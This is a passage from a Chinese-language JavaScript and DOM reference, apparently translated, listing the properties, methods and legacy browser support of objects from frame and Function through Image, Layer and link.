- **scrolling** 字符串，指定框架是否应具有滚动条，"yes"、"no"或"auto"。(IE4+, MOZ/N6+, DOM1)
- **src** 字符串，给出框架内容的 URL。(IE4+, MOZ/N6+, DOM1)
- **width** 框架内容区域的宽度，以像素为单位。(IE5.5+)

**方法**

此对象仅具有本章节开头的**通用 HTML 元素**对象中列出的方法。用于处理框架内容的预期方法与 **Frame** 浏览器对象相关，其行为类似于 **Window**。

**支持**

支持于 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1。

### Frame（浏览器对象）

此对象对应于显示框架内容的（子）窗口。它不是 **<frame>** 元素，而是作为该元素的结果创建的。通过 **window.frames[]** 集合访问此对象。此对象的结构与 **Window** 相同。

**属性**

参见 **Window**。

**方法**

参见 **Window**。

**支持**

支持于 Internet Explorer 3+、Mozilla、Netscape 2+。

### frameSet, HTMLFrameSetElement（文档对象）

此对象对应于文档中的 **<frameset>** 元素。通过标准 DOM 方法（如 **document.getElementById()**）访问此对象。

**属性**

此对象除了本章节开头的**通用 HTML 元素**对象中的属性外，还具有以下属性：

- **border** 字符串，指示用于框架之间边框的像素数。(IE4+)
- **borderColor** 字符串，指示边框的颜色（应为 #RRGGBB 十六进制）。(IE4+)
- **cols** 逗号分隔的框架列宽字符串。此字符串由像素值、百分比值和 * 值组成。(IE4+, MOZ/N6+, DOM1)


 - **frameBorder** 一个字符串，用于指定是否在框架周围显示边框（"1" 表示显示，"0" 表示不显示）。(IE4+)
- **frameSpacing** 一个字符串，表示框架之间的像素间距。(IE4+)
- **height** 框架集的高度，以像素或百分比表示。(IE4+)
- **name** 一个字符串，保存元素的 name 属性。(IE4+, MOZ/N6+)
- **rows** 一个逗号分隔的字符串，定义框架的行高。此字符串由像素值、百分比值和 * 值组成。(IE4+, MOZ/N6+, DOM1)
- **width** 框架集的宽度，以像素或百分比表示。(IE4+)

#### 方法

此对象仅包含本节开头 **通用 HTML 元素** 对象中列出的方法。

#### 支持

在 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1 中受支持。

### Function (内置对象)

**Function** 对象是 JavaScript 函数的派生来源。函数在 JavaScript 中是第一类数据类型，因此可以像赋值给变量或传递任何其他数据一样被赋值给变量或作为参数传递。函数当然是引用类型。

**Function** 对象提供了静态属性（如 **length**）以及在函数执行期间传达有用信息的属性，例如 **arguments[]** 数组。

#### 构造函数

```
var instanceName = new Function([arg1 [, arg2 [, ...]] ,] body);
```

*body* 参数是一个字符串，包含构成函数体的文本。可选的 *argN* 参数是函数接受的形参名称。例如：

```
var myAdd = new Function("x", "y", "return x + y");
var sum = myAdd(17, 34);
```

#### 属性

- **arguments[]** 一个隐式填充且隐式可用（可在函数内直接作为 "arguments" 使用）的传递给函数的参数数组。如果函数当前未执行，则此值为 **null**。(IE4+ (JScript 2.0+), MOZ, N3+ (JavaScript 1.1+), ECMA Edition 1)
- **arguments.callee** 对当前函数的引用。此属性已弃用。(N4+, MOZ, IE5.5+)
- **arguments.caller** 对调用当前函数的函数的引用。此属性已弃用。(N3, IE4+)
- **arguments.length** 传递给函数的参数数量。(IE4+ (JScript 2.0+), MOZ, N3+ (JavaScript 1.1+), ECMA Edition 1)
- **arity** 一个数值，表示函数期望的参数数量。此属性已弃用。(N4+, MOZ)
- **caller** 对调用当前函数的函数的引用；如果从全局上下文调用，则为 **null**。(IE4+ (JScript 2.0+), MOZ, N3+)
- **constructor** 对创建该对象的构造函数对象的引用。(IE4+ (JScript 2.0+), N3+ (JavaScript 1.1+), ECMA Edition 1)
- **length** 函数期望传入的参数数量。(IE4+ (JScript 2.0+), N3+ (JavaScript 1.1+), ECMA Edition 1)
- **prototype** 对对象原型的引用。(IE4+ (JScript 2.0+), N3+ (JavaScript 1.1+), ECMA Edition 1)

#### 方法

- **apply(*thisArg* [, *argArray*])** 使用由 *thisArg* 引用的对象作为其上下文（因此函数内对 **this** 的引用指向 *thisArg*）来调用函数。可选参数 *argArray* 包含在调用时传递给函数的参数列表。(IE5.5+ (JScript 5.5+), N4.06+ (JavaScript 1.3+), MOZ, ECMA Edition 3)
- **call(*thisArg* [, *arg1* [, *arg2* [, *…*]]])** 使用由 *thisArg* 引用的对象作为其上下文（因此函数内对 **this** 的引用指向 *thisArg*）来调用函数。可选参数 *argN* 在调用时传递给函数。(IE5.5+ (JScript 5.5+), N4.06+ (JavaScript 1.3+), MOZ, ECMA Edition 3)
- **toString()** 返回函数源代码的字符串表示形式。内置和浏览器对象的函数体通常表示为 "[native code]"。(IE4+ (JScript 2.0+), N3+ (JavaScript 1.1+), MOZ, ECMA Edition 1)
- **valueOf()** 返回函数源代码的字符串表示形式。内置和浏览器对象的函数体通常表示为 "[native code]"。(IE4+ (JScript 2.0+), N3+ (JavaScript 1.1+), MOZ, ECMA Edition 1)

#### 支持

在 IE4+ (JScript 2.0+)、N3+ (JavaScript 1.1+)、MOZ、ECMAScript Edition 1 中受支持。

#### 注意

函数的通用示例在本书中随处可见，但关于函数和 **Function** 对象的高级方面的示例请参见第 5 章。

### Global (内置对象)

**Global** 对象提供了可在脚本中任何地方自由使用的方法和常量。**Global** 被定义为全局封闭上下文，因此该对象无法实例化甚至无法直接访问；其属性和方法始终在执行脚本的范围内。其唯一目的是作为全局可用方法和常量的集合体。

#### 构造函数

此对象无法实例化，因为它定义了全局上下文，因此没有构造函数。

#### 属性

- **Infinity** 一个常量，持有数值 **Infinity**。(IE4+ (JScript 3.0+), N4.06+ (JavaScript 1.3+), MOZ, ECMA Edition 1)
- **NaN** 一个常量，持有数值 **NaN** (非数字)。(IE4+ (JScript 3.0+), N4.06+ (JavaScript 1.3+), MOZ, ECMA Edition 1)
- **undefined** 一个常量，持有值 **undefined**。(IE5.5+ (JScript 5.5+), N4.06+ (JavaScript 1.3+), MOZ, ECMA Edition 1)

#### 方法

- **decodeURI(*encodedURI*)** 对字符串 *encodedURI* 进行 URI 解码并返回解码后的字符串。(IE5.5+ (JScript 5.5+), MOZ/N6+ (JavaScript 1.5+), ECMA Edition 3)
- **decodeURIComponent(*encodedURI*)** 对字符串 *encodedURI* 进行 URI 解码并返回解码后的字符串。(IE5.5+ (JScript 5.5+), MOZ/N6+ (JavaScript 1.5+), ECMA Edition 3)
- **encodeURI(*uri*)** 对字符串 *uri* 进行 URI 编码，将 *uri* 视为完整的 URI。合法的 URI 字符（例如，协议后的 ://）不会被编码。返回编码后的字符串。(IE5.5+ (JScript 5.5+), MOZ/N6+ (JavaScript 1.5+), ECMA Edition 3)
- **encodeURIComponent(*uriComponent*)** 对字符串 *uriComponent* 进行 URI 编码并返回编码后的字符串。所有潜在的问题字符（例如 / 和 ?）都会被编码。(IE5.5+ (JScript 5.5+), MOZ/N6+ (JavaScript 1.5+), ECMA Edition 3)
- **escape(*string*)** 对 *string* 进行 URI 编码并返回编码后的字符串。建议使用较新的 **encodeURIComponent()**。(IE3+ (JScript 1.0+), N2+ (JavaScript 1.0+), MOZ)
- **eval(*string*)** 将 *string* 作为 JavaScript 代码执行。(IE3+ (JScript 1.0+), N2+ (JavaScript 1.0+), MOZ, ECMA Edition 1)
- **isFinite(*value*)** 返回一个布尔值，指示数值参数 *value* 是否有限。如果 *value* 是 **NaN**，则返回 **false**。(IE4+ (JScript 3.0+), N4.06+ (JavaScript 1.3+), MOZ, ECMA Edition 1)
- **isNaN(*value*)** 返回一个布尔值，指示数值参数 *value* 是否是 **NaN**。(IE4+ (JScript 3.0+), N3+ (JavaScript 1.1+), MOZ, ECMA Edition 1)
- **parseFloat(*string*)** 将 *string* 解析为浮点数并返回其值。如果 *string* 无法转换，则返回 **NaN**。(IE3+ (JScript 1.0+), N2+ (JavaScript 1.0+), MOZ, ECMA Edition 1)
- **parseInt(*string*)** 将 *string* 解析为整数并返回其值。如果 *string* 无法转换，则返回 **NaN**。(IE3+ (JScript 1.0+), N2+ (JavaScript 1.0+), MOZ, ECMA Edition 1)
- **unescape(*encodedString*)** 对 *encodedString* 进行 URI 解码并返回解码后的字符串。建议使用较新的 **decodeURIComponent()** 方法。(IE3+ (JScript 1.0+), MOZ, N2+ (JavaScript 1.0+))

#### 支持

在 IE3+ (JScript 1.0+)、N2+ (JavaScript 1.0+)、Mozilla、ECMAScript Edition 1 中受支持。

### head, HTMLHeadElement (文档对象)

此对象对应于文档中的 **<head>** 标签。可以通过标准 DOM 方法访问此对象，但由于它通常没有 **id** 值，因此通常通过从 **document.documentElement** 等常见起点来引用。

#### 属性

除了本节开头 **通用 HTML 元素** 对象中的属性外，此对象还具有以下属性：

- **profile** 一个字符串，包含以空格分隔的 URI 列表，提供数据属性和合法值。(IE6+, MOZ/N6+, DOM1)

#### 方法

此对象仅包含本节开头 **通用 HTML 元素** 对象中列出的方法。

#### 支持

在 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1 中受支持。

### Hidden, HTMLInputElement (文档对象)

此对象对应于文档中出现的隐藏表单字段（<**input type="hidden"...**>）。可以使用标准 DOM 方法（如 **document.getElementById()**）或通过包含它的 **Form** 元素（通过 **elements[]** 数组或按 **name**）访问此对象。此对象的结构与 **Text** 对象的结构几乎相同，因此详情请参见 **Text** 的参考。

#### 属性

与 **Text** 对象相同。

#### 方法

与 **Text** 对象相同，但缺少 **select()** 方法，因为该元素在屏幕上不可见。

#### 支持

在 Internet Explorer 3+、Mozilla、Netscape 2+、DOM1 中受支持。

### History (浏览器对象)


#### 属性

- **current** 一个只读属性，包含历史记录中的当前 URL，访问需要 UniversalBrowserRead 权限。(N3+, MOZ)
- **length** 一个只读属性，包含历史记录列表中的条目数量。(IE3+, MOZ, N2+)
- **next** 一个只读属性，包含历史记录中的下一个 URL，访问需要 UniversalBrowserRead 权限。(N3+, MOZ)
- **previous** 一个只读属性，包含历史记录中的上一个 URL，访问需要 UniversalBrowserRead 权限。(N3+, MOZ)

#### 方法

- **back()** 使浏览器在历史记录中后退一个 URL。(IE3+, N2+, MOZ)
- **forward()** 使浏览器在历史记录中前进一个 URL。(IE3+, N2+, MOZ)
- **go(where)** 如果 *where* 是整数，则加载历史记录中相对于当前页面该偏移位置的 URL。例如，**go(-2)** 在历史记录中后退两步。如果 *where* 是字符串，则加载历史记录列表中 URL 或文档标题包含 *where* 的第一个条目。(IE3+, N2+, MOZ)

#### 支持

支持于 IE3+ (JScript 1.0+)、N2+ (JavaScript 1.0+)、MOZ。

#### 说明

Netscape 2 在窗口级别跟踪历史记录信息，而后续版本的 Netscape 为每个框架维护独立的历史记录，因此在 Netscape 2 浏览器中应谨慎使用这些方法。

历史记录数组中的各个条目可以在 Netscape 中通过 **history[]** 使用签名脚本访问，但出于隐私原因在其他情况下不可用。

### h1,...h6（文档对象）

该对象对应于文档中的 `<hn>` 元素（标题级别 *n*，标题级别范围为 1 到 6）。通过标准 DOM 方法如 **document.getElementById()** 访问该对象。

#### 属性

该对象除了本部分开头的 **通用 HTML 元素** 对象中列出的属性外，还具有以下属性：

- **align** 指定元素对齐方式的字符串，例如，"left"。(IE4+, MOZ/N6+, DOM1)

#### 方法

该对象仅具有本部分开头的 **通用 HTML 元素** 对象中列出的方法。

#### 支持

支持于 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1。

### hr, HTMLHRElement（文档对象）

该对象对应于文档中的 `<hr>`（水平线）标签。通过标准 DOM 方法如 **document.getElementById()** 访问该对象。

#### 属性

该对象除了本部分开头的 **通用 HTML 元素** 对象中列出的属性外，还具有以下属性：

- **align** 指定元素对齐方式的字符串，例如，"left"。(IE4+, MOZ/N6+, DOM1)
- **color** 指定线条颜色的字符串。(IE4+)
- **noShade** 指示线条不用阴影渲染的布尔值。(IE4+, MOZ/N6+, DOM1)
- **size** 指定线条大小（高度）的字符串，以像素为单位。(IE4+, MOZ/N6+, DOM1)
- **width** 指定线条宽度的字符串，以像素为单位。(IE4+, MOZ/N6+, DOM1)

#### 方法

该对象仅具有本部分开头的 **通用 HTML 元素** 对象中列出的方法。

#### 支持

支持于 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1。

### html, HTMLHtmlElement（文档对象）

该对象对应于文档中的 `<html>` 元素。通过标准 DOM 方法访问该对象，通常直接使用 **document.documentElement**。

#### 属性

该对象除了本部分开头的 **通用 HTML 元素** 对象中列出的属性外，还具有以下属性：

- **scroll** 指示文档中是否要显示滚动条的字符串。有效值为 "yes"、"no" 和 "auto"。(IE6+)
- **version** 包含文档 DTD 版本信息的字符串。(IE6+, MOZ/N6+, DOM1)

#### 方法

该对象仅支持本部分开头的 **通用 HTML 元素** 对象中列出的方法。

#### 支持

支持于 Internet Explorer 4+、Mozilla、Netscape 6+、DOM1。

### I, HTMLElement（文档对象）

该对象对应于文档中的 `<i>`（斜体）标签。通过标准 DOM 方法如 **document.getElementById()** 访问该对象。

#### 属性

该对象仅支持本部分开头的 **通用 HTML 元素** 对象中列出的属性。

#### 方法

该对象仅支持本部分开头的 **通用 HTML 元素** 对象中列出的方法。

#### 支持

支持于 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1。

#### 说明

您可能会看到 Mozilla 等浏览器将该对象标识为 **HTMLSpanElement**，尽管 DOM 中并不存在这样的对象。正确的标识应为 **HTMLElement**，不过 Internet Explorer 仅将其标识为通用对象。

### iframe, HTMLIFrameElement（文档对象）

该对象对应于文档中的 `<iframe>`（内联框架）标签。通过标准 DOM 方法如 **document.getElementById()** 访问该对象。在 Internet Explorer 中，访问通常通过 **document.frames[]** 数组进行。

#### 属性

该对象除了本部分开头的 **通用 HTML 元素** 对象中列出的属性外，还具有以下属性：

- **align** 指定元素对齐方式的字符串，例如，"left"。(IE4+, MOZ/N6+, DOM1)
- **allowTransparency** 指定框架背景是否可以为透明（可以设置为任意颜色）的布尔值。(IE5.5+)
- **border** 指示框架边框宽度的字符串或整数。(IE4+)
- **contentDocument** 对应该框架内容的 **Document** 的只读引用。(MOZ/N6+)
- **contentWindow** 对应该框架的 **Window** 的只读引用。(IE5.5+, MOZ/N6+)
- **dataFld** 指定数据源中哪个字段绑定到该元素的字符串。(IE4+)
- **dataSrc** 包含数据绑定数据源信息的字符串。(IE4+)
- **frameBorder** 包含 "0"（无边框）或 "1"（显示边框）的字符串。(IE4+, MOZ/N6+, DOM1)
- **height** 指定框架高度的字符串，以像素为单位。(IE4+, MOZ/N6+, DOM1)
- **hspace** 指示框架水平边距的字符串，以像素为单位。(IE4+)
- **longDesc** 包含框架长描述 URL 的字符串，类似于"替代文本"，用于非可视化浏览器。(IE6+, MOZ/N6+, DOM1)
- **marginHeight** 指定垂直边距的字符串，以像素为单位。会被 CSS 属性覆盖。(IE4+, MOZ/N6+, DOM1)
- **marginWidth** 指定水平边距的字符串，以像素为单位。会被 CSS 属性覆盖。(IE4+, MOZ/N6+, DOM1)
- **name** 保存框架 **name** 属性的字符串。(IE4+, MOZ/N6+, DOM1)
- **scrolling** 指定框架是否应有滚动条的字符串。其值为 "yes"、"no" 或 "auto"。(IE4+, MOZ/N6+, DOM1)
- **src** 给出框架内容 URL 的字符串。(IE4+, MOZ/N6+, DOM1)
- **vspace** 指示框架垂直边距的字符串，以像素为单位。(IE4+)
- **width** 指定框架宽度的字符串，以像素为单位。(IE4+, MOZ/N6+, DOM1)

#### 方法

该对象仅具有本部分开头的 **通用 HTML 元素** 对象中列出的方法。

#### 支持

支持于 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1。

### Image, HTMLImageElement（文档对象）

**Image** 对象对应于文档中的 `` 标签。该对象公开了允许动态检查和操作页面上图像的属性。通常通过 **Document** 的 **images[]** 集合访问 **Image** 对象，但 DOM 提供的现代 **document.getElementById()** 方法当然也可以使用。


 ## 构造函数

```
var instanceName = new Image([width, height]);
```

创建并返回一个新的 **Image** 对象，如果指定了的话，使用给定的 *width*（宽度）和 *height*（高度）。此构造函数通过实例化一个 **Image** 对象并在文档中提前设置其 **src** 属性来预加载图像，从而在需要之前完成加载。

#### 属性

此对象除了在本节开头找到的**通用 HTML 元素**对象中的属性外，还具有以下属性：

- **align** 字符串，指定元素的对齐方式，例如"left"。（IE4+, MOZ/N6+, DOM1）
- **alt** 字符串，包含图像的替代文本。对应于 **\** 的 **alt** 属性。（IE4+, MOZ/N6+, DOM1）
- **border** 数值，表示图像边框宽度（以像素为单位）。在早期版本的 Netscape 中，此属性为只读。（IE4+, N3+, MOZ, DOM1）
- **complete** 只读布尔值，指示图像是否已完成加载。（IE4+, N3+, MOZ）
- **dataFld** 字符串，指定数据源的哪个字段绑定到该元素。（IE4+）
- **dataSrc** 字符串，包含数据绑定的数据源。（IE4+）
- **dynsrc** 字符串，指示要显示的视频剪辑的 URL，以替代静态图像。（IE4+）
- **fileCreatedDate** 只读字符串，包含图像创建的日期（如果可以确定），否则为空字符串。（IE4+）
- **fileModifiedDate** 只读字符串，包含图像最后修改的日期（如果可以确定），否则为空字符串。（IE4+）
- **fileSize** 只读值，指示图像的大小（以字节为单位，如果可以确定）。（IE4+）
- **fileUpdatedDate** 只读字符串，包含图像最后更新的日期（如果可以确定），否则为空字符串。（IE4+）
- **galleryImg** 字符串，指示 IE 的图像工具栏是否可见（"yes"）或不可见（"no"）。（IE6+）
- **height** 指定图像的高度（以像素为单位）。在 Netscape 3 和 4 中为只读。（IE4+, N3+, MOZ, DOM1）
- **hspace** 指定图像的水平边距（以像素为单位）。在 Netscape 3 和 4 中为只读。（IE4+, N3+, MOZ, DOM1）
- **isMap** 布尔值，指示图像是否为服务器端图像映射。（IE4+, MOZ/N6+, DOM1）
- **longDesc** 字符串，指定图像较长描述的 URL。（IE6+, MOZ/N6+, DOM1）
- **loop** 整数，指示图像激活时循环播放的次数。（IE4+）
- **lowSrc** 字符串，指定用于显示的较低分辨率图像的 URL。（DOM1，但浏览器支持可能不一致）
- **lowsrc** 字符串，指定用于显示的较低分辨率图像的 URL。（IE4+, N3+, MOZ）
- **name** 字符串，保存元素的 **name** 属性。在 Netscape 3 和 4 中为只读。（IE4+, N3+, MOZ, DOM1）
- **nameProp** 只读字符串，指示 **\** 的 **src** 属性中给出的文件名。不包含协议、域名、目录或其他信息。（IE5+）
- **protocol** 只读字符串，包含 **\** 的 **src** 属性 URL 中协议部分的完整名称。（IE4+）
- **src** 字符串，包含图像的 URL。（IE4+, N3+, MOZ, DOM1）
- **start** 字符串，指示与 **dynsrc** 属性/属性关联的视频何时开始播放。值为 "fileopen"（默认值，文件加载时开始播放）或 "mouseover"（用户鼠标悬停时开始）。（IE4+）
- **useMap** 字符串，包含用作客户端图像映射的 URL。（IE4+, MOZ/N6+, DOM1）
- **vspace** 指定图像的垂直边距（以像素为单位）。在 Netscape 3 和 4 中为只读。（IE4+, N3+, MOZ, DOM1）
- **width** 指定对象的宽度（以像素为单位）。在 Netscape 3 和 4 中为只读。（IE4+, N3+, MOZ, DOM1）

#### 方法

此对象除了在本节开头找到的**通用 HTML 元素**对象中的方法外，还具有以下方法：

- **handleEvent(*event*)** 使传递的 **Event** 实例由图层的适当处理程序处理。（仅限 N4）

#### 支持

支持于 Internet Explorer 4+、Mozilla、Netscape 3+、DOM1。

### implementation（文档对象）

包含有关浏览器支持的 DOM 技术的信息。

#### 属性

无。

#### 方法

- **hasFeature(*feature* [, *version*])** 返回一个布尔值，指示浏览器是否支持字符串 *feature* 指定的功能，以及字符串 *level* 给定的 DOM 级别。*feature* 的有效值为 CSS、Events、HTML、HTML-Events、MouseEvents、Range、StyleSheets、Views 和 XML。*level* 的有效值为 DOM 级别，例如 "1.0" 或 "2.0"。由于浏览器对 DOM 功能的支持参差不齐，此方法返回的值通常不准确。（IE6+, MOZ/N6+, DOM1）

#### 支持

支持于 Internet Explorer 6+、Mozilla/Netscape 6+、DOM1 Core。

#### 备注

虽然**document.implementation**主要提供浏览器对象功能，但它被认为是**Document**对象，因为它是 DOM 规范的一部分。

### input, HTMLInputElement（文档对象）

此对象对应于文档中的 **<input>** 标签。输入字段的类型由 **type** 属性设置，包括 "text"、"password"、"checkbox"、"radio"、"submit"、"reset"、"file"、"hidden"、"image" 和 "button"。传统模型对不同 **type** 属性的 **<input>** 元素进行了区分，并按 **type** 值称呼它们（例如，**Text**、**Password** 或 **Radio**）。随着 DOM 的兴起，这种区别不再那么明确，但由于历史原因，我们按 **type** 属性列出每种类型。例外是 "image"，它具有 **Button** 的大部分属性（在 Internet Explorer 下还有 **Image** 的属性）。对此对象的各种实例化访问通过标准 DOM 方法实现，或更常见的是通过包含 **<input>** 的 **Form** 的 **elements[]** 数组实现。

#### 属性

根据类型，请参见 **Checkbox**、**Hidden**、**Password**、**Radio** 或 **Text**。

DOM 中定义的通用 **<input>** 元素作为 **HTMLInputElement** 支持于 Internet Explorer 4+、Mozilla/Netscape 6+ 和 DOM1。然而，对特定类型 **<input>** 的支持在更早的版本中就可用。

### ins, HTMLModElement（文档对象）

此对象对应于文档中的 `<ins>`（插入修改）元素。对此对象的访问通过标准 DOM 方法（如 **document.getElementById()**）实现。

#### 属性

此对象除了在本节开头找到的**通用 HTML 元素**对象中的属性外，还具有以下属性：

- **cite** 字符串，包含修改参考的 URL。（IE6+, MOZ/N6+ DOM1）
- **dateTime** 字符串，包含修改的日期。（IE6+, MOZ/N6+, DOM1）

#### 方法

此元素具有在本节开头找到的**通用 HTML 元素**对象中列出的方法。

#### 支持

支持于 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1。

#### 备注

此对象与 `<del>` 标签关联的对象相同，因为在 DOM 下两者都是 **HTMLModElement** 对象。我们将其分别列出，因为熟悉 (X)HTML 的开发人员会认为它们具有不同的含义。

### isIndex, HTMLIsIndexElement（文档对象）

此对象对应于已弃用的 HTML 标签 `<isindex>`。虽然它不常用，但由 DOM 定义，可通过常见 DOM 方法访问。

#### 属性

此对象除了在本节开头找到的**通用 HTML 元素**对象中的属性外，还具有以下属性：

- **form** 指向包含此标签的 **Form** 对象的只读引用。
- **prompt** 字符串值，保存该标签的 **prompt** 属性定义的提示消息。

#### 方法

此对象仅具有在本节开头找到的**通用 HTML 元素**对象中列出的方法。

#### 支持

支持于 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1。

#### 备注

`<isindex>` 标签已弃用且很少使用，此对象仅出于完整性而呈现，因为它在 IE 的 DHTML 语法和 DOM1 规范中都有记录。

### java（浏览器对象）

请参见 **Packages**。


### kbd, HTMLElement（文档对象）

此对象对应于文档中的 **\<kbd\>**（键盘输入）标签。它拥有本节开头列出的**通用 HTML 元素**对象中所列出的属性和方法。

#### 属性

此对象仅支持本节开头列出的**通用 HTML 元素**对象中所列出的属性。

#### 方法

此对象仅支持本节开头列出的**通用 HTML 元素**对象中所列出的方法。

#### 支持情况

在 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1 中受支持。

#### 备注

你可能会看到 Mozilla 等浏览器将此对象标识为 **HTMLSpanElement**，尽管 DOM 中并不存在该对象。正确的标识应为 **HTMLElement**，不过 Internet Explorer 仅将其表示为通用对象。

### label, HTMLLabelElement（文档对象）

此对象对应于文档中的 **\<label\>**（表单字段标签）标签。可以通过标准 DOM 方法（如 **document.getElementById()**）访问此对象。

#### 属性

除了本节开头列出的**通用 HTML 元素**对象中的属性外，此对象还具有以下属性：

- **accessKey** 单字符字符串，表示使元素获得焦点的快捷键。(IE4+, MOZ/N6+, DOM1)
- **dataFld** 字符串，指定数据源的哪个字段绑定到该元素。(IE4+)
- **dataFormatAs** 字符串，指示元素如何处理提供给它的数据。(IE4+)
- **dataSrc** 字符串，包含用于数据绑定的数据源。(IE4+)
- **form** 对标签所属 **Form** 的引用。(IE4+, MOZ/N6+, DOM1)
- **htmlFor** 字符串，包含标签所关联对象的标识符。(IE4+, MOZ/N6+, DOM1)

#### 方法

此对象仅具有本节开头列出的**通用 HTML 元素**对象中所列出的方法。

#### 支持情况

在 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1 中受支持。

#### 备注

尽管它是位于 **\<form\>** 内的标签，但它不会出现在表单对象的 **elements[]** 数组中。

### Layer（专有文档对象）

**Layer** 对象对应于 **\<layer\>** 或 **\<ilayer\>** 标签，仅在 Netscape 4 中受支持。此对象已被弃用，建议使用标准 **\<div\>** 标签配合 CSS 绝对定位来替代，两者提供非常相似的功能。

#### 属性

- **above** 根据文档中所有图层的 z-index 顺序，对当前图层上方的 **Layer** 的引用（若当前图层为最顶层则为 **null**）。(N4)
- **background** 字符串，指定图层背景图片的 URL。(N4)
- **below** 根据文档中所有图层的 z-index 顺序，对当前图层下方的 **Layer** 的引用（若当前图层为最底层则为 **null**）。(N4)
- **bgColor** 字符串值，表示图层背景颜色的命名颜色或十六进制三元组（例如 "#FF00FF"）。(N4)
- **clip.bottom、clip.height、clip.left、clip.right、clip.top、clip.width** 数值（像素）定义图层的矩形裁剪区域。此矩形之外的任何内容都不会显示。(N4)
- **document** 对图层 **Document** 对象的只读引用。这是一个功能完整的 **Document** 对象，包含 **images[]** 及相关集合。通常用于向图层 **write()** 内容。(N4)
- **left** 像素值，表示图层左边缘的 *x* 坐标。若图层的 **position** 属性为 "absolute"，则此位置相对于其父（包含）图层的原点；否则，相对于其周围内容定位。你可以对此属性使用字符串值来指定像素以外的单位，例如 "25%"。(N4)
- **name** 只读值，包含图层的 **name** 或 **id** 属性。(N4)
- **pageX** 以像素为单位的值，表示图层相对于可见页面的水平位置。(N4)
- **pageY** 以像素为单位的值，表示图层相对于可见页面的垂直位置。(N4)
- **parentLayer** 对包含当前图层的 **Layer** 的引用（如果不存在此类图层，则引用 **Window** 对象）。(N4)
- **siblingAlong** 根据与当前图层共享同一父图层的所有图层的 z-index 顺序，对当前图层上方的 **Layer** 的引用，若为最顶层则为 **null**。(N4)
- **siblingBelow** 根据与当前图层共享同一父图层的所有图层的 z-index 顺序，对当前图层下方的 **Layer** 的引用，若为最底层则为 **null**。(N4)
- **src** 字符串，表示图层内容的 URL。(N4)
- **top** 像素值，表示图层上边缘的 *y* 坐标。若图层的 **position** 属性为 "absolute"，则此位置相对于其父（包含）图层的原点；否则，相对于其周围内容定位。你可以对此属性使用字符串值来指定像素以外的单位，例如 "25%"。(N4)
- **visibility** 字符串，指示图层是否可见。值为 "show" 使图层可见，"hide" 使其不可见，"inherit" 使其继承父图层的可见性属性。(N4)
- **window** 对包含该图层的窗口或框架的引用。(N4, 只读)
- **x** **left** 的别名。(N4)
- **y** **top** 的别名。(N4)
- **zIndex** 图层的相对 z-index（相对于其同级元素）。(N4)

#### 方法

- **captureEvents(_eventMask_)** 指示图层捕获位掩码 *eventMask* 中指定的事件。(N4)
- **handleEvent(_event_)** 使 **Event** 实例由图层的相应处理程序处理。(N4)
- **load()** 使浏览器重新加载图层的 **src**。(N4)
- **moveAbove(_whichLayer_)** 使图层被放置在 *whichLayer* 所引用的 **Layer** 之上。(N4)
- **moveBelow(_whichLayer_)** 使图层被放置在 *whichLayer* 所引用的 **Layer** 之下。(N4)
- **moveBy(_x, y_)** 将图层从当前位置水平移动 *x* 像素，垂直移动 *y* 像素。(N4)
- **moveTo(_x, y_)** 将图层移动到相对于其父图层（若绝对定位）或相对于其周围内容（若相对定位）的 *x* 和 *y* 坐标处。(N4)
- **moveToAbsolute(_x, y_)** 将图层移动到相对于可见页面的 *x* 和 *y* 坐标处。(N4)
- **releaseEvents(_eventMask_)** 指示图层停止捕获位掩码 *eventMask* 中指定的事件。(N4)
- **resizeBy(_width, height_)** 按参数指定的像素数增大或缩小图层。负值会导致图层缩小。(N4)
- **resizeTo(_width, height_)** 将图层调整为参数指定的像素大小。(N4)
- **routeEvent(_event_)** 沿层次结构正常传递 **Event** 实例 *event*。用于拒绝处理事件。(N4)

#### 支持情况

此对象仅在 Netscape 4 中受支持。

#### 备注

尽管非常专有，但开发人员偶尔仍会使用此对象来实现 DHTML 风格的导航系统和其他效果，以确保完全的向后兼容性。有关此对象使用示例，请参阅[第 15 章](#)和[第 16 章](#)。

### legend, HTMLLegendElement（文档对象）

此对象对应于文档中的 **\<legend\>**（字段集标题）标签。可以通过标准 DOM 方法访问此对象。

#### 属性

除了本节开头列出的**通用 HTML 元素**对象中的属性外，此对象还具有以下属性：

- **accessKey** 单字符字符串，表示使元素获得焦点的快捷键。(IE4+, MOZ/N6+, DOM1)
- **align** 字符串，指定元素的对齐方式，例如 "left"。(IE4+, MOZ/N6+, DOM1)
- **dataFld** 字符串，指定数据源的哪个字段绑定到该元素。(IE4+)
- **dataFormatAs** 字符串，指示元素如何处理提供给它的数据。(IE4+)
- **dataSrc** 字符串，包含用于数据绑定的数据源。(IE4+)
- **form** 对元素所属 **Form** 的引用。(IE4+, MOZ/N6+, DOM1)

#### 方法

此对象仅具有本节开头列出的**通用 HTML 元素**对象中所列出的方法。

#### 支持情况

在 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1 中受支持。

### li, HTMLLIElement（文档对象）

此对象对应于文档中的 **\<li\>**（列表项）标签。可以通过标准 DOM 方法（如 **document.getElementById()**）或从父 **HTMLOListElement** 或 **HTMLUListElement** 对象进行遍历来访问此对象。


 ## 属性

该对象具有以下属性，此外还包括本节开头的**通用 HTML 元素**对象中的属性：

- **type** 字符串，表示要使用的项目符号类型，例如，无序列表的"disc"、"circle"或"square"。（IE4+, MOZ/N6+, DOM1）
- **value** 整数，表示该项的项目编号。（IE4+, MOZ/N6+, DOM1）

#### 方法

该对象仅具有本节开头的**通用 HTML 元素**对象中列出的方法。

#### 支持

支持 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1。

### link, HTMLLinkElement（ designates a link (**Document Object)

该对象对应于文档中的`<link>`（外部链接文件）标签。对此对象的访问通过标准的 DOM 方法实现，例如**document.getElementById()**。有关对应于`<a href=""></a>`的传统**Link**对象的信息，请参见本节开头附近关于**a**的条目。

#### 属性

该对象具有以下属性，此外还包括本节开头的**通用 HTML 元素**对象中的属性：

- **charset** 字符串，表示链接文档的字符集。（IE6+, MOZ/N6+, DOM1）
